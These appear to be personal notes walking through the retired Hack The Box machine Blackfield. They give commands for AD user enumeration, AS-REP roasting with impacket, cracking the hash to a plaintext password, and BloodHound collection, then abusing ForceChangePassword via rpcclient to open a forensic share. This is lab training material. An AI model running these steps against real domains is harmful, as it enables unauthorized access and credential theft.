






---
tags:
  - Reference
---

# :material-microsoft-windows: Blackfield

<span class="pill pill-info">10.10.10.192 · BLACKFIELD.local</span> <span class="pill pill-medium">ad</span> <span class="pill pill-medium">asreproast</span> <span class="pill pill-medium">acl</span>

**AS-REP → ForceChangePassword ACL → forensic share** — my own notes, translated.

!!! warning "Full solution ahead"
    This is a complete walkthrough with working credentials. Retired machine.

1. **nmap** → domain is `BLACKFIELD.local`.

    

    *Open ports*

    

    *Service versions — domain is `BLACKFIELD.local`*

2. **Enumerate users** with kerbrute and check guest SMB access:

    ```bash
    kerbrute userenum --dc 10.10.10.192 -d BLACKFIELD.local users.txt
    smbmap -d BLACKFIELD.local -u guest -H 10.10.10.192
    ```

    

    *Guest SMB — `profiles$` is READ ONLY, `forensic` denied*

3. **The `profiles$` share is listable** — every directory name is a username:

    ```bash
    smbclient //10.10.10.192/profiles$ -N -c ls | awk '{print $1}' > users.txt
    ```

4. Useful accounts that fall out: `audit2020`, `support`, `svc_backup`.
5. **AS-REP roast** the list for accounts without pre-authentication:

    ```bash
    impacket-GetNPUsers -dc-ip 10.10.10.192 blackfield.local/ -no-pass -usersfile users.txt
    # -> $krb5asrep$23$support@BLACKFIELD.LOCAL:...
    ```

6. **Crack it:**

    ```bash
    john --format=krb5asrep --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
    # -> #00^BlackKnight   (support)
    ```

7. **BloodHound** shows `support` holds **ForceChangePassword** over `audit2020`:

    ```bash
    bloodhound-python -u support -p '#00^BlackKnight' -ns 10.10.10.192 -c All --zip -d blackfield.local
    ```

    

    *BloodHound: SUPPORT →**ForceChangePassword**→ AUDIT2020*

8. **Abuse the ACL** — reset that account's password over RPC:

    ```bash
    rpcclient -U blackfield.local/support 10.10.10.192
    rpcclient $> setuserinfo audit2020 23 <NEWPASS>
    ```

9. **Re-enumerate shares as `audit2020`** — the `forensic` share opens up:

    ```bash
    crackmapexec smb 10.10.10.192 -u audit2020 -p '<NEWPASS>' --shares
    ```

    

    *After the reset, `audit2020` can READ `forensic`*

    ```bash
    smbclient //10.10.10.192/forensic -U 'audit2020%<NEWPASS>'
    ```

    

    *The `commands_output` directory inside `forensic`*

    It holds a `commands_output` directory (`domain_admins.txt`, `domain_users.txt`,
    `firewall_rules.txt`, `systeminfo.txt`, `tasklist.txt`…) — and elsewhere an
    lsass dump, which is the road onward to `svc_backup` and `SeBackupPrivilege`.

!!! note "My notes stop here"
    The original notes end at the forensic share. The remaining chain
    (lsass dump → `svc_backup` → `SeBackupPrivilege` → `ntds.dit`) is in the
    curated entry above.

## :material-link-variant: Related

- Back to the index → [HTB Writeups](../htb.md).
